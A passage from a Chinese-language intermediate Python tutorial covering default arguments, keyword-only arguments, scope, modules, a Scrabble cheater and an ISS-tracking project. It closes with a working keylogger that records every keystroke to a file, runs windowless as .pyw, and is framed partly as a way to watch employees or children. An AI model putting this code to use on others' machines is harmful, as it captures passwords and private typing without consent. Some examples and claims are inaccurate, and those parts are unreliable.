sleep(0.1)
log('Hi again!')
```

```
>>>
2014-11-15 21:10:10.472303: Hi there!
2014-11-15 21:10:10.573395: Hi again!
```

当你使用‘none’作为默认参数值时，当这些参数是可变或可变对象时，这一点尤为重要。例如，你需要加载一个已编码为JSON数据的值。如果解码数据时恰好发生失败，你需要返回一个空字典。因此，你可能想尝试下面的方法：

```
def decode(data, default={}):
    try:
        return json.loads(data)
    except ValueError:
        return default
```

这里的问题与上面使用‘datetime.now’的示例类似。指定的‘default’字典将需要被所有解码调用共享，因为默认参数值在模块加载时只被求值一次。这可能会带来非常令人惊讶的行为。

```
foo = decode('bad data')
foo['stuff'] = 5
bar = decode('also bad')
bar['meep'] = 1
print('Foo:', foo)
print('Bar:', bar)

>>>
Foo: {'stuff': 5, 'meep': 1}
Bar: {'stuff': 5, 'meep': 1}
```

在这种情况下，你期望得到两个不同的字典，每个都包含一个键值对。然而，修改其中一个似乎也会修改另一个。问题在于‘foo’和‘bar’都等于参数‘default’。如你所见，它们是相同的字典对象。

```
assert foo is bar
```

要解决这个问题，你需要将关键字参数的默认值设置为‘none’；之后，你需要在函数的文档字符串中记录其行为。

```
def decode(data, default=None):
    """从字符串加载JSON数据。

    Args:
        data: 要解码的JSON数据。
        default: 解码失败时返回的值。
            默认为空字典。
    """
    if default is None:
        default = {}
    try:
        return json.loads(data)
    except ValueError:
        return default
```

此时，当你运行与之前相同的测试代码时，你将得到预期的结果。

```
foo = decode('bad data')
foo['stuff'] = 5
bar = decode('also bad')
bar['meep'] = 1
print('Foo:', foo)
print('Bar:', bar)

>>>
Foo: {'stuff': 5}
Bar: {'meep': 1}
```

### 不要忘记以下内容：

- ✓ 默认参数在函数定义时（模块加载期间）只被求值一次。嗯，这对于动态值如[]或{}可能会导致奇怪的行为。
- ✓ 对于包含动态值的关键字参数，你可以使用‘none’作为默认值。现在，在函数的文档字符串中记录明确的默认行为。

### 使用仅关键字参数强制清晰性

Python函数的一个强大特性是通过关键字传递参数。关键字参数提供的灵活性使得编写对用例清晰的代码成为可能。

例如，你需要将一个数字除以另一个数字，但同时要注意特殊情况。有时，你需要忽略异常：‘ZeroDivisionError’，并返回无穷大。同样，你可能想忽略异常：‘OverflowError’，并返回零。

```
def safe_division(number, divisor, ignore_overflow,
                 ignore_zero_division):
    try:
        return number / divisor
    except OverflowError:
        if ignore_overflow:
            return 0
        else:
            raise
    except ZeroDivisionError:
        if ignore_zero_division:
            return float('inf')
        else:
            raise
```

你会注意到这个函数很直接，调用时将忽略除法产生的溢出‘float’，并返回零作为结果。

```
result = safe_division(1, 10**500, True, False)
print(result)

>>>
0.0
```

这个调用忽略了除以零产生的错误，并返回无穷大。

```
result = safe_division(1, 0, False, True)
print(result)

>>>
inf
```

这里的问题是，很容易混淆控制忽略异常行为的两个布尔参数的确切位置。这很容易导致难以追踪的错误。提高代码可读性的一个好方法是使用关键字参数。默认情况下，函数可以极其谨慎，然后调用者可以使用关键字参数来指定他们需要为特定操作翻转的忽略标志，以覆盖默认行为。

```
safe_division_b(1, 10**500, ignore_overflow=True)
safe_division_b(1, 0, ignore_zero_division=True)
```

关键字参数本质上是可选行为，因此没有强制函数调用者使用关键字参数来提高清晰性。使用位置参数，即使有了新的‘safe_division_b’定义，你仍然可以以旧方式调用它。

```
safe_division_b(1, 10**500, True, False)
```

对于这样复杂的函数，你会希望要求调用者明确他们的意图。在Python中，你可以通过确保使用仅关键字参数来定义函数来强制清晰性。这样的参数不能通过位置提供，只能通过关键字提供。

在这种情况下，你重新定义函数‘safe_division’，使其接受仅关键字参数。参数列表中的星号*表示位置参数的结束和仅关键字参数的开始。

```
def safe_division_c(number, divisor, *,
    ignore_overflow=False,
    ignore_zero_division=False):
    # ...
```

此时，使用位置参数调用函数的关键字参数将无法工作。

```
safe_division_c(1, 10**500, True, False)
```

```
>>>
TypeError: safe_division_c() takes 2 positional arguments but 4 were given
```

关键字参数及其默认值按预期工作。

```
safe_division_c(1, 0, ignore_zero_division=True) # OK
```

```
try:
    safe_division_c(1, 0)
except ZeroDivisionError:
    pass # Expected
```

### Python 2的仅关键字参数

不幸的是，与Python 3不同，Python 2没有用于指定仅关键字参数的显式语法。尽管如此，你仍然可以通过在参数列表中使用运算符‘**’来获得相同的行为，即对无效的函数调用引发‘TypeErrors’。这个运算符与*运算符相同。唯一的区别是它接受任意数量的关键字参数，而不是接受可变数量的位置参数，无论它们是否被定义。

```
# Python 2
def print_args(*args, **kwargs):
    print 'Positional:', args
    print 'Keyword: ', kwargs

print_args(1, 2, foo='bar', stuff='meep')

>>>
Positional: (1, 2)
Keyword:  {'foo': 'bar', 'stuff': 'meep'}
```

如果你想让‘safe_division’在Python 2中接受仅关键字参数，你需要让函数接受**kwargs。然后，你‘弹出’预期的关键字参数——即，从kwargs字典中弹出，并使用‘pop’方法的第二个参数来指定当键不存在时的默认值。最后，你需要确保kwargs中没有剩余的关键字参数，这样调用者就不会提供无效的参数。

```
# Python 2
def safe_division_d(number, divisor, **kwargs):
    ignore_overflow = kwargs.pop('ignore_overflow', False)
    ignore_zero_div = kwargs.pop('ignore_zero_division', False)
    if kwargs:
        raise TypeError('Unexpected **kwargs: %r' % kwargs)
        # ...
```

你现在可以使用或不使用关键字参数来调用函数。

```
safe_division_d(1, 10)
safe_division_d(1, 0, ignore_zero_division=True)
safe_division_d(1, 10**500, ignore_overflow=True)
```

就像Python 3的情况一样，传递仅关键字参数将无法工作。

```
safe_division_d(1, 0, False, True)
>>>
TypeError: safe_division_d() takes 2 positional arguments but 4 were given
```

尝试传递意外的关键字参数也不起作用。

```
safe_division_d(0, 0, unexpected=True)
>>>
TypeError: Unexpected **kwargs: {'unexpected': True}
```

### 不要忘记以下内容：

- √ 关键字参数通常使函数的意图更清晰。
- √ 你可以使用仅关键字参数来强制调用者为任何可能令人困惑的函数实际提供关键字参数。这尤其适用于那些接受多个布尔标志的函数。

## Python 中的命名空间

在现实生活中，名称冲突时有发生。例如，你上过的大多数学校里，同名的学生至少有两个。比如，当老师叫学生 Y 时，其他大多数学生都会热情地询问他指的是哪一位（因为可能有两个叫 Y 的学生）。在这种情况下，老师会说出姓氏，然后正确的 Y 会做出回应。

你会同意，如果每个人都有一个特殊的名字，那么这里所有的困惑以及通过在名字之外寻找额外信息来确定所谈论的正确人物的过程，都可以轻松避免。在一个有 20 或 30 名学生的班级里，这可能不是问题。然而，在一所学校、一个城市、一个城镇——甚至一个国家——为所有这些地区的孩子都创建一个独特、相关且易于记忆的名字可能是不可能的。此外，另一个问题是确保我们给每个孩子一个独特的名字；也就是说，确定是否有其他人拥有与给定名字发音相同的名字（例如 Macie、Maci 或 Macey）。

编程也可能面临非常相似的冲突。

当程序员编写一个没有外部依赖的 30 行程序时，他或她很容易为所有变量提供独特且相关的名字。然而，类似地，当程序有几千行代码，并且可能还加载了一些外部模块时，就需要一个系统来管理名称。这引出了我们的主题：命名空间。

在本节中，你将理解它们为何重要以及 Python 中的作用域解析。

### 命名空间的含义

命名空间是一个确保所有程序名称都是特殊且唯一的系统，你作为程序员可以使用它们而不会引起任何冲突。到现在，你应该非常清楚所有 Python 的东西，如函数、列表和字符串都是对象。嗯，你可能想知道 Python 通常将命名空间用作字典。我们有一个名称到对象的映射，其中对象是值，名称是键。许多不同的命名空间实际上可以使用一个名称，然后将其映射到不同的对象。

看看下面的命名空间示例。

**局部命名空间：** 这些命名空间包含函数内的局部名称。此类命名空间的创建发生在函数被调用时，并且仅持续到函数返回。

**全局命名空间：** 这些命名空间包含项目中使用的不同导入模块的名称。它们的创建发生在模块被纳入项目时，并且仅在脚本结束之前存在。

**内置命名空间：** 这些命名空间由内置异常名称和内置函数组成。

尽管我们将在后面的章节中讨论模块，但你需要注意不同的模块中有有用的算术函数。例如，`cmath` 和 `math` 模块包含许多共享的函数，如 `acos()`、`exp()`、`cos()`、`log10()` 等。如果你在一个程序中同时使用这两个模块，你需要在它们前面加上模块名称，以便能够明确地使用这些函数——例如，`cmath.log10()` 和 `math.log10()`。

### 作用域

命名空间很重要，因为首先，它们标识了程序中的整个名称列表。然而，这并不一定意味着变量名称可以在任何地方使用。一个名称还包含一个作用域，定义了该名称可以在不使用任何前缀的情况下使用的程序部分。

与命名空间类似，我们在程序中也有多个作用域。看看下面列出的在程序执行过程中可能出现的一些作用域。

-   局部作用域：局部作用域是最内层的作用域，包含当前函数中可用的局部名称列表。
-   所有封闭函数的作用域。名称搜索从最近的封闭作用域开始，向外移动。
-   模块级作用域，包含来自当前模块的整个全局名称列表。
-   最外层的作用域，包含整个内置名称列表——这个作用域通常是最后搜索以获取引用的名称。

### 作用域解析

正如我们已经看到的，对特定名称的搜索从最内层的函数开始，然后向上移动，直到名称被映射到对象（由程序完成）。如果程序在命名空间中找不到这样的名称，程序就会引发所谓的 `NameError` 异常。当我们开始时，尝试在 Python IDE（如 IDLE）中输入 `dir()`。

```
dir()
# ['__builtins__','__doc__','__loader__','__name__',
'__package__','__spec__']
```

`dir()` 列出的所有名称在所有 Python 程序中都可用。为了简洁起见，我将在其他示例中首先将这些名称称为 `__builtins__`……`__specs__`。

让我们看看定义一个变量和一个函数后 `dir()` 函数的结果。

```
a_num = 10
dir()
# ['__builtins__' .... '__spec__', 'a_num']
```

```
def some_func():
    b_num = 11
    print(dir())
```

```
some_func()
# ['b_num']
```

```
dir()
# ['__builtins__' ... '__spec__', 'a_num', 'some_func']
```

函数 `dir()` 输出当前作用域内的名称列表。这就是为什么在 `some_func()` 作用域内只有一个名为 `b_num` 的名称。当你在定义 `some_func()` 之后调用 `dir()` 时，你会看到它被添加到全局命名空间中存在的名称列表中。

我们现在来看看一些嵌套函数中的名称列表。请注意，此代码块中的代码是接续前一个代码块的。

```
def outer_func():
    c_num = 12
    def inner_func():
        d_num = 13
        print(dir(), ' - names in inner_func')
    e_num = 14
    inner_func()
    print(dir(), ' - names in outer_func')

outer_func()
# ['d_num'] - names in inner_func
# ['c_num', 'e_num', 'inner_func'] - names in outer_func
```

上面的代码在 `outer_func()` 作用域内定义了两个变量和一个函数。`dir()` 只打印 `inner_func()` 中的 `d_num` 名称。由于除了 `d_num` 之外没有定义其他变量，这是合理的。

当我们在局部命名空间中重新分配一个全局名称时，我们创建了一个包含相同名称的新局部变量；除非明确指定为 `global`，否则情况如此。下面的代码更清楚地说明了这一点。

```
a_num = 10
b_num = 11

def outer_func():
    global a_num
    a_num = 15
    b_num = 16
    def inner_func():
        global a_num
        a_num = 20
        b_num = 21
        print('a_num inside inner_func :', a_num)
        print('b_num inside inner_func :', b_num)
    inner_func()
    print('a_num inside outer_func :', a_num)
    print('b_num inside outer_func :', b_num)

outer_func()
print('a_num outside all functions :', a_num)
print('b_num outside all functions :', b_num)

# a_num inside inner_func : 20
# b_num inside inner_func : 21

# a_num inside outer_func : 20
# b_num inside outer_func : 16

# a_num outside all functions : 20
# b_num outside all functions : 11
```

`a_num` 在 `outer_func()` 和 `inner_func()` 中都被声明为全局变量。只是为同一个全局变量设置了不同的值。这就是为什么 `a_num` 的值在所有位置都是 20。另一方面，每个函数都创建了自己的具有局部作用域的变量 `b_num`；函数 `print()` 然后打印这个局部作用域变量的值。

**点击此处下载本书的有声书版本：**

[https://itunes.apple.com/us/audiobook/python-programming-your-intermediate-guide-to-learn/id1448033975](https://itunes.apple.com/us/audiobook/python-programming-your-intermediate-guide-to-learn/id1448033975)

## Python 模块

我们使用模块将 Python 中的代码划分为更小的部分。本质上，在 Python 中，模块是一个定义了变量、函数和类的 Python 文件。当你将相同的代码组织到一个文件中时，你实际上使其更易于访问。这就是模块的意义。例如，我们将本书的内容分类或索引到不同的章节中，使其不会变得枯燥或繁杂。这意味着通过将书分成章节，内容变得更容易理解和导航。

同样，模块就是包含相同代码的文件。

### 导入模块

导入模块有多种方式。包括以下几种：

#### 1：使用 IMPORT 语句

你可以使用 `import` 语句进行导入。请看下面的语法示例：

```
import <file_name1, file_name2,...file_name(n)>
```

以下是一个示例：

```
def add(a,b):
  c=a+b
  print c
  return
```

你可以将文件保存为 `addition.py`。你将使用 `import` 语句来导入此文件。

```
import addition
addition.add(10,20)
addition.add(30,40)
```

现在，在另一个 Python 文件中构建，你想导入前面的文件。为此，你将使用如上例所示的 `import` 语句。你可以使用 `file_name.method()` 来调用相应的方法。在本例中，我们有 `addition.add()`。这里，`addition` 是 Python 文件，`add()` 是在 `addition.py` 文件中定义的方法。

输出如下：

```
>>>
30
70
>>>
```

你需要注意，你可以通过函数名和模块名（用点号分隔）来访问模块内的任何函数。这被称为点号。整个表示法被称为点表示法。

#### PYTHON 导入多个模块的示例

Msg.py:

```
def msg_method():
  print "Today the weather is rainy"
  return
```

display.py:

```
def display_method():
  print "The weather is Sunny"
  return
```

multiimport.py:

```
import msg,display
msg.msg_method()
display.display_method()
```

输出如下：

```
>>>
Today the weather is rainy
The weather is Sunny
>>>
```

#### 2：使用 FROM..IMPORT 语句

我们使用 `from..import` 语句从模块中导入特定的属性。如果你不需要导入整个模块，可以简单地使用 `from..import` 语句。语法如下：

语法：

```
from <module_name> import <attribute1,attribute2,attribute3,...attributen>
```

#### PYTHON FROM..IMPORT 示例

```
def circle(r):
  print 3.14*r*r
  return

def square(l):
  print l*l
  return

def rectangle(l,b):
  print l*b
  return

def triangle(b,h):
  print 0.5*b*h
  return
```

area1.py

```
from area import square,rectangle
square(10)
rectangle(2,5)
```

输出如下：

```
>>>
100
10
>>>
```

#### 3：导入整个模块

你可以使用 `from..import*` 导入整个模块。语法如下：

```
from <module_name> import *
```

使用上述语句，模块中定义的所有属性都将被导入，因此你将能够访问每个属性。

area.py

这与上面的示例相同：

area1.py

```
from area import *
square(10)
rectangle(2,5)
circle(5)
triangle(10,20)
```

输出如下：

```
>>>
100
10
78.5
100.0
>>>
```

### 内置 Python 模块

在 Python 中，我们有众多内置模块；其中一些包括：random、math、collections、threading、mailbox、os、time、string、tkinter 等等。
每个模块都包含一些内置函数，你可以使用它们来执行不同的功能。下面来看两个模块：

#### 1：MATH

使用 math 模块，你可以使用各种内置的算术函数。
函数及其描述如下：

| 函数 | 描述 |
| :--- | :--- |
| ceil(n) | 返回给定数字的下一个整数 |
| sqrt(n) | 返回给定数字的平方根。 |
| exp(n) | 返回自然对数 e 的给定数字次幂 |
| floor(n) | 返回给定数字的前一个整数。 |
| log(n,baseto) | 返回数字的自然对数。 |
| pow(baseto, exp) | 返回 baseto 的 exp 次幂。 |
| sin(n) | 返回给定弧度的正弦值。 |
| cos(n) | 返回给定弧度的余弦值。 |
| tan(n) | 返回给定弧度的正切值。 |

#### MATH 模块示例

```
import math
a=4.6
print math.ceil(a)
print math.floor(a)
b=9
print math.sqrt(b)
print math.exp(3.0)
print math.log(2.0)
print math.pow(2.0,3.0)
print math.sin(0)
print math.cos(0)
print math.tan(45)
```

输出为：

```
>>>
5.0
4.0
3.0
20.0855369232
0.69314718056
8.0
0.0
1.0
1.61977519054
>>>
```

此外，math 模块为算术运算提供了两个常量，如下所示：

| 常量 | 描述 |
| --- | --- |
| Pi | 返回常量 π = 3.14159... |
| e | 返回常量 e= 2.71828... |

看下面的例子：

```
import math

print math.pi
print math.e
```

输出如下：

```
>>>
3.14159265359
2.71828182846
>>>
```

#### 2：RANDOM

我们使用 random 模块生成随机数。它提供以下两个内置函数：

| 函数 | 描述 |
| :--- | :--- |
| random() | 返回一个介于 0.0 和 1.0 之间的随机数，其中 1.0 不包含在内。 |
| randint(x,y) | 返回一个介于 x 和 y 之间的随机数，两个数字都包含在内。 |

#### PYTHON 模块示例

```
import random

print random.random()
print random.randint(2,8)
```

输出为：

```
>>>
0.797473843839
7
>>>
```

在了解了这个中级阶段需要学习的大部分内容之后，我们将看一些 Python 项目示例，通过实践这些示例，应该能帮助你应用到目前为止在本指南中学到的知识：

## 面向中级者的简单 Python 项目

涵盖了所有与中级水平相关的主题后，我相信你已经准备好自己动手做几个项目了。首先，让我们看几个项目示例，让你有个好的开始！

### 1：Scrabble 挑战

在这个项目中，你将创建一个 Scrabble 作弊器。
该项目的目标包括：

- 练习将问题分解并从头开始用 Python 解决
- 练习命令行参数解析
- 练习从 Python 文件中读取
- 练习使用 for 循环和字典

本质上，你编写一个 Python 脚本，该脚本假设一个 Scrabble 字母架作为命令行参数，然后打印出所有可以从该字母架构建的有效 Scrabble 单词及其在 Scrabble 中的相应分数——（这些应该按分数排序）。请看下面的调用示例和输出。

```
$ python scrabble.py ZAEFIEE
17 feeze
17 feaze
16 faze
15 fiz
15 fez
12 zee
12 zea
11 za
6 fie
6 fee
6 fae
5 if
5 fe
5 fa
5 ef
2 ee
2 ea
2 ai
2 ae
```

此[链接](link)中的网站包含 [SOWPODS](SOWPODS) 单词列表（官方）中的所有单词，每行一个单词。

看下面的字典——它包含 Scrabble 中所有字母及其分值：

```
scores = {"a": 1, "c": 3, "b": 3, "e": 1, "d": 2, "g": 2,
    "f": 4, "i": 1, "h": 4, "k": 5, "j": 8, "m": 3,
    "l": 1, "o": 1, "n": 1, "q": 10, "p": 3, "s": 1,
    "r": 1, "u": 1, "t": 1, "w": 4, "v": 4, "y": 4,
    "x": 8, "z": 10}
```

让我们试着分解这个问题。

#### 创建单词列表

编写你的代码来打开并读取单词文件 `sowpods`。构建一个列表，其中每个元素本质上是单词文件 `sowpods` 中的一个单词。你需要注意，文件中的每一行都以换行符结尾，你必须将其从单词中消除。

#### 获取字母组

编写代码，从传递给脚本的命令行参数中获取 Scrabble 字母组（即用于组成单词的字母）。例如，假设你的脚本名为 `scrabble_cheater.py`，如果你运行 *scrabble_cheater.py* RSTLNEI，那么字母组就是 RSTLNEI。

尝试处理用户忘记提供字母组的情况——在这种情况下，打印错误信息，说明他们必须提供特定的字母；然后使用 `exit()` 函数退出程序。确保在大小写方面保持一致性。

#### 获取有效单词

现在编写代码，帮助你从 Scrabble 单词列表中获取所有由字母组中字母组成的单词。你可以用多种方式实现。不过，你可以使用一种简单易懂且足够快的方法：遍历单词列表中的每个单词，检查每个字母是否都在字母组中。如果找到，将该单词保存到列表 `valid_words` 中。注意处理重复字母；字母组中的字母一旦被使用，就不能再次使用。

#### 计分

现在编写代码，使用上述分数字典为每个有效单词确定 Scrabble 分数。

#### 检查你的工作

在这一步，问问自己，如果你在以下输出上运行脚本会发生什么：

```
$ python scrabble.py
Usage: scrabble.py [RACK]
$ python scrabble.py AAAaaaa
2 aa
$ python scrabble.py ZZAAEEI
22,zeze
21,ziz
12,zee
12,zea
11,za
3,aia
2,ee
2,ea
2,ai
2,aa
2,ae
```

恭喜！你刚刚从头开始用 Python 实现了一个重要且有用的脚本；如你所知，它非常适合在单词游戏或与朋友玩 Scrabble 时作弊。继续练习吧！

### 2：“空间站在哪里”项目

这个项目让你使用 Web 服务获取国际空间站（ISS）的当前位置，然后在地图上绘制其精确位置。

#### 步骤 1：了解谁在太空

首先，你将使用一个提供太空实时信息的 Web 服务。我们将首先尝试找出当前谁在太空中。

你需要注意到，Web 服务有一个类似于典型网页的 URL 或地址。然而，它返回的是数据而不是网页 HTML。在网页浏览器中，打开以下链接：
[http://api.open-notify.org/astros.json](http://api.open-notify.org/astros.json)

等待看到类似这样的内容：

```
{
  "message": "success",
  "number": 3,
  "people": [
    {
      "craft": "ISS",
      "name": "Yuri Malenchenko"
    },
    {
      "craft": "ISS",
      "name": "Timothy Kopra"
    },
    {
      "craft": "ISS",
      "name": "Timothy Peake"
    }
  ]
}
```

由于数据是实时的，你肯定会看到一个非常不同的结果。我们称这种格式为 JSON。

我们现在将从 Python 调用 Web 服务以使用结果。打开下面的 trinket：

模块 `json` 和 `urllib.request` 已导入并可供使用。现在将以下代码添加到 `main.py` 中，以便将你之前使用的网址放入一个变量：

```
url = 'http://api.open-notify.org/astros.json'
```

我们现在将如下调用 Web 服务：

```
url = 'http://api.open-notify.org/astros.json'
response = urllib.request.urlopen(url)
```

之后，我们需要将 JSON 响应加载到 Python 数据结构中，如下所示：

```
url = 'http://api.open-notify.org/astros.json'
response = urllib.request.urlopen(url)
result = json.loads(response.read())
print(result)
```

在这种情况下，你应该能看到类似这样的内容：

```
{'message': 'success', 'number': 3, 'people': [{'craft': 'ISS', 'name': 'Yuri Malenchenko'}, {'craft': 'ISS', 'name': 'Timothy Kopra'}, {'craft': 'ISS', 'name': 'Timothy Peake'}]}
```

这只是一个 Python 字典，包含三个键：people、number 和 message。message 的值 'success' 表示请求成功。不过，你需要注意到，根据当前谁在太空中，你会看到不同的结果。

我们现在尝试以更易读的方式打印信息：首先，让我们尝试查找当前在太空中的人数并如下打印：

```
url = 'http://api.open-notify.org/astros.json'
response = urllib.request.urlopen(url)
result = json.loads(response.read())

print('People in Space: ', result['number'])
```

result 字典中与 'number' 键相关的值将通过 result['number'] 打印。在这里，它是 3。

与键 'people' 相关的值是一个字典列表。我们将尝试将该值放入一个变量中，以便你可以如下使用它：

```
print('People in Space: ', result['number'])

people = result['people']
print(people)
```

你会看到类似这样的内容：

```
[{'craft': 'ISS', 'name': 'Yuri Malenchenko'}, {'craft': 'ISS', 'name': 'Timothy Kopra'}, {'craft': 'ISS', 'name': 'Timothy Peake'}]
```

现在你需要为所有宇航员打印行——每人一行。为此，你可以轻松使用 for 循环。每次循环时，'p' 将被设置为一个代表不同宇航员的字典。

```
print('People in Space: ', result['number'])

people = result['people']

for p in people:
    print(p)
```

你现在可以尝试查找 'craft' 和 'name' 的值。

```
print('People in Space: ', result['number'])

people = result['people']

for p in people:
    print(p['name'])
```

在这种情况下，你会看到类似这样的内容：

```
People in Space: 3
Yuri Malenchenko
Timothy Kopra
Timothy Peake
```

你需要注意到你正在使用实时数据；因此，你的结果取决于当前在太空中的人数。

#### 显示飞船：挑战

Web 服务还提供了他们所在的飞船——除了宇航员的名字外，比如国际空间站。你可以添加到脚本中，以便也打印出宇航员所在的飞船。

参考以下示例：

```
People in Space: 3
Yuri Malenchenko in ISS
Timothy Kopra in ISS
Timothy Peake in ISS
```

#### 步骤 2：查找国际空间站位置

国际空间站始终在绕地球运行或轨道飞行。它大约每 1.5 小时完成一次轨道飞行。它还以平均每秒 7.66 公里的速度飞行，这意味着它非常快。

你将使用另一个 Web 服务来了解国际空间站的当前位置。在浏览器中，在新标签页中打开以下 Web 服务的 URL：

[http://api.open-notify.org/iss-now.json](http://api.open-notify.org/iss-now.json)

你会看到类似这样的内容：

```
{
  "iss_position": {
    "latitude": 8.54938193505081,
    "longitude": 73.16560793639105
  },
  "message": "success",
  "timestamp": 1461931913
}
```

结果包含国际空间站当前所在地球位置的坐标。经度是从东到西的位置，范围从（负）-180 到 180。零度是穿过英国伦敦（格林威治）的本初子午线。

纬度是从北到南的位置，范围从 90 到（负）-90。在这种情况下，零度是赤道。现在你需要使用 Python 实际调用相同的 Web 服务。将以下代码添加到脚本末尾，以获取国际空间站的当前位置。

```
url = 'http://api.open-notify.org/iss-now.json'
response = urllib.request.urlopen(url)
result = json.loads(response.read())

print(result)
```

```
{'message': 'success',
'iss_position': {'latitude':
17.0762447364, 'longitude':
66.6454000717}, 'timestamp':
1461931742}
```

现在你将构建变量来存储经度和纬度，然后打印它们。

```
url = 'http://api.open-notify.org/iss-now.json'
response = urllib.request.urlopen(url)
result = json.loads(response.read())

location = result['iss_position']
lat = location['latitude']
lon = location['longitude']
print('Latitude: ', lat)
print('Longitude: ', lon)
```

```
Latitude:  26.4169023793
Longitude:  58.378453289
```

正如你所猜测的，最好在地图上显示其位置。为此，我们将需要导入 turtle 图形库

#### 第三步：国际空间站何时会经过头顶

我们还提供了一个网络服务，你可以调用它来获取国际空间站下次经过特定位置的时间。
现在，试着找出国际空间站何时会经过美国休斯顿的航天中心。该区域的经度为95.097，纬度为29.5502。
在以下坐标处，在地图上标记一个点。

```python
iss.penup()
iss.goto(lon, lat)

# Space Center, Houston
lat = 29.5502
lon = -95.097

location = turtle.Turtle()
location.penup()
location.color('yellow')
location.goto(lon, lat)
location.dot(5)
location.hideturtle()
```

现在，让我们获取国际空间站下次经过头顶的时间和日期。
就像之前一样，你可以在网络浏览器的地址栏中输入URL来调用网络服务：
http://api.open-notify.org/iss-pass.json

在这种情况下，你会看到如下错误：

```json
{
  "message": "failure",
  "reason": "Latitude must be specified"
}
```

该网络服务接受经度和纬度作为输入，因此我们需要将它们包含在使用的URL中。
输入内容在`?`之后添加，并用`&`符号分隔。
只需按照描述将输入`lat`和`lon`添加到URL中：

http://api.open-notify.org/iss-pass.json?lat=29.55&lon=95.1

```json
{
  "message": "success",
  "request": {
    "altitude": 100,
    "datetime": 1465541028,
    "latitude": 29.55,
    "longitude": 95.1,
    "passes": 5
  },
  "response": [
    {
      "duration": 630,
      "risetime": 1465545197
    },
    {
      "duration": 545,
      "risetime": 1465551037
    },
    {
      "duration": 382,
      "risetime": 1465568806
    },
    {
      "duration": 625,
      "risetime": 1465574518
    }
  ]
}
```

响应包含多个经过时间，你只需查看第一个。同样，时间采用标准时间格式。你将能够在Python中将其转换为可读的时间。
现在，尝试从Python调用网络服务。只需将以下代码添加到脚本末尾。

```python
url = 'http://api.open-notify.org/iss-pass.json'
url = url + '?lat=' + str(lat) + '&lon=' + str(lon)
response = urllib.request.urlopen(url)
result = json.loads(response.read())
print(result)
```

```python
{'message': 'success', 'request': {'latitude': 29.5502, 'longitude': -95.097, 'altitude': 100, 'datetime': 1465540436, 'passes': 5}, 'response': [{'duration': 435, 'risetime': 1465541544}, {'duration': 622, 'risetime': 1465589616}, {'duration': 564, 'risetime': 1465595438}, {'duration': 156, 'risetime': 1465601504}, {'duration': 345, 'risetime': 1465613231}]}
```

从结果中，我们现在将获取第一次经过的时间。

只需添加以下代码：

```python
url = 'http://api.open-notify.org/iss-pass.json'
url = url + '?lat=' + str(lat) + '&lon=' + str(lon)
response = urllib.request.urlopen(url)
result = json.loads(response.read())

over = result['response'][1]['risetime']
print(over)
```

时间以时间戳形式给出；因此你需要Python的time模块才能将其打印为可读形式，然后转换为本地时间。我们将让海龟在点旁边写下经过时间。

在脚本顶部，添加一行：`import time`。

```python
import json
import urllib.request
import turtle
import time
```

函数`time.ctime()`现在会将时间转换为可读形式，你同样可以用海龟写出来：

```python
over = result['response'][1]['risetime']
#print over

style = ('Arial', 6, 'bold')
location.write(time.ctime(over), font=style)
```

注意，你可以注释掉或删除`print`行。

#### 尝试查找更多经过时间：你的挑战

有一些网站可供你使用，例如[这个](https://example.com)，可以查找你特别感兴趣的地方的经纬度。

你现在能查找并绘制其他地点的经过时间吗？

- 首先，你必须更改网络服务的经度和纬度输入。
- 你还必须在地图上绘制位置和结果。

### 3：创建一个简单的键盘记录器

你知道键盘记录器是什么吗？如果不知道，这里简单介绍一下。
键盘记录器也称为击键记录，是一种监控软件，能够记录其安装的计算机系统上的每一次击键。记录随后保存在一个通常是加密的日志文件中。
键盘记录器可以记录电子邮件、即时消息，并获取使用计算机键盘随时输入的任何信息——这包括密码、用户名和其他个人身份信息。键盘记录器创建日志文件，然后将其发送给特定的接收者。许多键盘记录器程序还会记录使用的电子邮件地址以及访问的网站的URL。

#### 键盘记录器有什么用途？

作为监控工具，雇主通常使用键盘记录器来确保员工仅将工作计算机用于业务目的。我们还看到越来越多的家长希望使用键盘记录器来了解孩子的在线活动。
不幸的是，一些程序员将键盘记录器嵌入间谍软件中；这意味着它可能允许将你的个人信息传输给匿名的第三方。

无论如何，你在互联网上看到过它（键盘记录器），甚至可能在你人生的某个时刻下载或安装过它——或者至少看到有人这样做过——无论是为了监控或监视某人或某事。Windows 10实际上包含一个内置的键盘记录器。

不过，你可能已经猜到，安装此软件的过程可能伴随着各种危险的病毒。这也许是为什么自己创建一个是最佳选择的原因之一。

让我们简要回顾一下创建键盘记录器的步骤。

#### 第一步：安装Python

拥有一个可运行的Python程序是显而易见的；除非你已经下载了一个预编译的键盘记录器文件，否则你需要安装Python以及一些模块。

下载并安装这些模块：

- 最新版本的Python
- [Pywin32](https://sourceforge.net/projects/pywin32/files/pywin32/)
- [PyHook](https://sourceforge.net/projects/pyhook/)

#### 第二步：创建代码

```python
import pyHook, pythoncom, sys, logging

file_log = 'keyloggeroutput.txt'

def OnKeyboardEvent(event):
    logging.basicConfig(filename=file_log, level=logging.DEBUG, format='%(message)s')
    chr(event.Ascii)
    logging.log(10, chr(event.Ascii))
    return True

hooks_manager = pyHook.HookManager()
hooks_manager.KeyDown = OnKeyboardEvent
hooks_manager.HookKeyboard()
pythoncom.PumpMessages()
```

当你已经完全安装好所有Python相关组件后，打开IDLE，新建一个脚本，然后输入以下代码：

```
import pyHook, pythoncom, sys, logging

# feel free to set the file_log to a different file name/location

file_log = 'keyloggeroutput.txt'

def OnKeyboardEvent(event):
    logging.basicConfig(filename=file_log, level=logging.DEBUG,
                        format='%(message)s')
    chr(event.Ascii)
    logging.log(10,chr(event.Ascii))
    return True

hooks_manager = pyHook.HookManager()
hooks_manager.KeyDown = OnKeyboardEvent
hooks_manager.HookKeyboard()
pythoncom.PumpMessages()
```

现在将其保存为 something.pyw。

#### 第三步：测试

现在打开你刚刚创建的文件并进行测试；开始输入。当你想停止记录时，只需打开任务管理器，结束所有“Python”进程。之后，前往 something.pyw 所在的同一目录，查找 keyloggeroutput.txt。现在打开它，查看你输入的所有内容。

需要注意的是，如果你尝试用记事本打开它，可能会看到一些看起来奇怪的字符；这些字符表示你按下了退格键。

我认为这个讨论到此就结束了，因为这基本上就是你需要知道的全部内容。不过，我认为你仍然需要看一个键盘记录器（作为示例）以便更好地理解。所以，让我们继续。

#### 第四步：观察下面的键盘记录器示例

首先，解压 keylogger.rar 并打开包含文件的文件夹。你应该能看到一些随机文件——这是因为当你将Python程序编译成独立的.exe文件时，需要将所有这些文件放在与程序相同的目录中。

